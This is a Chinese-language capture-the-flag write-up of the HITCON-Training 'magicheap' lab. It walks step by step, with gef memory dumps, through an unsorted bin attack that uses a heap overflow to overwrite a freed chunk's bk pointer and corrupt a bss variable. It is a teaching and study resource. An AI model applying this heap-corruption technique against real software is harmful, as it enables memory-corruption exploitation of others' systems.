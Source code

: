

# magicheap（unsorted_bin_attack)

题目链接：

<https://github.com/scwuaptx/HITCON-Training/tree/master/LAB/lab14>



首先分析程序，存在任意长度堆溢出，我们的目的是覆盖 bss 段的 magic 变量，使其大于 0x1305, 很容易想到 unsorted bin attack， 该技术达到的效果就是写 unsorted_chunks (av) 到任意地址，而这个值是比较大的。

我会着重展示内存的变化：

bk 是指向 chunk 的 pre_size 的地方的，而我们的 target address 对应的是 fake chunk 的 fd 的地方。

所以  bk = target_address-0x10

我们直接利用堆溢出，将 unsorted bin 链表中的第一个 chunk 的bk，从而malloc 堆块的时候就能达到 bk 写 unsorted bin 链表头部值的效果。



1. 首先 malloc 三个 chunk，分别问 chunk 0, chunk1,chunk2:

```python
gef➤  heap chunks
Chunk(addr=0xa1e010, size=0x30, flags=PREV_INUSE)
    [0x0000000000a1e010     61 61 61 61 0a 00 00 00 00 00 00 00 00 00 00 00     aaaa............]
Chunk(addr=0xa1e040, size=0x90, flags=PREV_INUSE)
    [0x0000000000a1e040     78 5b db 87 c9 7f 00 00 78 5b db 87 c9 7f 00 00     x[......x[......]
Chunk(addr=0xa1e0d0, size=0x30, flags=)
    [0x0000000000a1e0d0     63 63 63 63 0a 00 00 00 00 00 00 00 00 00 00 00     cccc............]
Chunk(addr=0xa1e100, size=0x20f10, flags=PREV_INUSE)  ←  top chunk
```



chunk0 用来写，chunk1 用来free 后放入 unsorted bin 链表，所以大小要大于 fastbin 的最大值，chunk 2 防止 free 1 时

2. 接下来我们 free chunk 1, chunk 1 放入 unsorted bin 链表

```python
[+] unsorted_bins[0]: fw=0xa1e030, bk=0xa1e030
 →   Chunk(addr=0xa1e040, size=0x90, flags=PREV_INUSE)
```

此时 chunk 1 的内容：

```python
gef➤  x/16gx 0xa1e040-0x10
0xa1e030:	0x0000000000000000	0x0000000000000091
0xa1e040:	0x00007fc987db5b78	0x00007fc987db5b78
0xa1e050:	0x0000000000000000	0x0000000000000000
0xa1e060:	0x0000000000000000	0x0000000000000000
0xa1e070:	0x0000000000000000	0x0000000000000000
0xa1e080:	0x0000000000000000	0x0000000000000000
0xa1e090:	0x0000000000000000	0x0000000000000000
0xa1e0a0:	0x0000000000000000	0x0000000000000000

```



3. 接下来，利用堆溢出漏洞写chunk0, 覆盖 chunk1 中的 bk 指针。

此时chunk1的内容,已经成功修改 bk 指针

```
gef➤  x/16gx 0xa1e040-0x10
0xa1e030:	0x0000000000000000	0x0000000000000091
0xa1e040:	0x0000000000000000	0x00000000006020b0
0xa1e050:	0x0000000000000000	0x0000000000000000
0xa1e060:	0x0000000000000000	0x0000000000000000
```



此时 magic 的值：

```
gef➤  x/16gx 0x00000000006020b0
0x6020b0 <stdin@@GLIBC_2.2.5>:	0x00007fc987db58e0	0x0000000000000000
0x6020c0 <magic>:	0x0000000000000000	0x0000000000000000
0x6020d0:	0x0000000000000000	0x0000000000000000
0x6020e0 <heaparray>:	0x0000000000a1e010	0x0000000000000000
```

看，此时 unsorted bin 的 bk 值

```
unsorted_bins[0]: fw=0xa1e030, bk=0x6020b0
```



4. 接下来malloc,刚好重新分配 chunk1 给我们。从 unsorted bin 取出，然后bk 就会指向 unsorted bin 的头，从而修改 magic 的值，是不是很简单。

从、此时 magic 的值也被修改了：

```
gef➤  x/16gx 0x6020b0
0x6020b0 <stdin@@GLIBC_2.2.5>:	0x00007fc987db58e0	0x0000000000000000
0x6020c0 <magic>:	0x00007fc987db5b78	0x0000000000000000
0x6020d0:	0x0000000000000000	0x0000000000000000
```

这个值就是 unsorted bin 链表的头部，也就是 main_arena+88。

结束了~

题目相关内容可以

四步：

- malloc three chunks
- free chunk1
- overwrite bk of chunk1
- malloc a chunk, the size is same with chunk1

我们再来回顾一下这道题：

- 首先漏洞是edit函数的堆溢出
- 其次add delete edit 基本都没有太多限制，很方便我们执行 attack
- 最终目的是改写bss段的某个值。

由此想到每道题的最终目的都是不一样的。

其实边写边觉得.... 这些东西都写烂了吧，不过我要想总结出新的东西，还是需要耐着性子重新过一遍的。

